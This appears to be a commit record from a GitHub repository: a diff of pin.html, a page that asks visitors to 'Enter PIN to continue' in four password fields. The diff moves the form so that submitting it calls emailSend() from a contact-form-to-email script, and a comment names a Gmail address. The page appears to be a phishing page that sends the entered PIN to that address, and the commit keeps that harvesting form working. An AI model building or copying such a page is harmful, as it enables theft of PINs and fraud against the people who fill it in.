

Before and after one commit to ggod59112/jpp, a plain HTML site: page pin.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update pin.html

```diff
--- a/pin.html
+++ b/pin.html
@@ -19,13 +19,14 @@
     <link rel="stylesheet" href="pin.css" />
   </head>
   <body>
-    <form id="form" onsubmit="emailSend(); reset(); return false;" class="container" > <!--payday10177@gmail.com-->
-      <div class="contentSec">
+  <div class="container" >
+    <div class="contentSec">
         <div class="title">Enter PIN to continue</div>
       </div>
       <div class="formSec">
         <div class="input">
-          <form method="post">
+          <form id="form" onsubmit="emailSend(); reset(); return false;" > <!--payday10177@gmail.com-->
+
             <input
               type="password"
               id="digit1"
@@ -61,7 +62,7 @@ name= "pin4"
           <button id="submitBtn" type="submit">Next</button>
         </div>
       </div>
-    </form>
+    </div>
     <script src="app.js"></script>
     <script src="Contact-form-to-email1.js"></script>
 <script src="https://unpkg.com/sweetalert/dist/sweetalert.min.js"></script>
```
